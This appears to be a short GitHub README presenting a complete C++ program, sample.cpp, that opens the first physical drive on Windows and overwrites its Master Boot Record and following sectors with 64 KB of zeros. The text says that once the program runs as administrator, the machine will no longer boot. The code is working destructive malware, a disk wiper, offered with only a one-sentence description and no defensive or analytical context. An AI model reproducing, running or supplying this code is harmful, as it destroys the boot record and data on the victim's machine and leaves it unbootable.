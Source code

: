 
# C++ Overwrite MBR (Master Boot Record)
If the C++ code is executed as an administrator, the MBR will be overwritten with many zeros and you will no longer be able to enter the system after a restart.

#


`sample.cpp`
```cpp
#include <windows.h>
int main()
{

    HANDLE MasterBootRecord = CreateFileA("\\\\.\\PhysicalDrive0", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, 0, OPEN_EXISTING, 0, 0);

    unsigned char* bootcode = (unsigned char*)LocalAlloc(LMEM_ZEROINIT, 65536);

    if (MasterBootRecord == INVALID_HANDLE_VALUE)
        ExitProcess(2);

    DWORD w;
    if (!WriteFile(MasterBootRecord, bootcode, 65536, &w, NULL))
        ExitProcess(3);
    CloseHandle(MasterBootRecord);

}
```
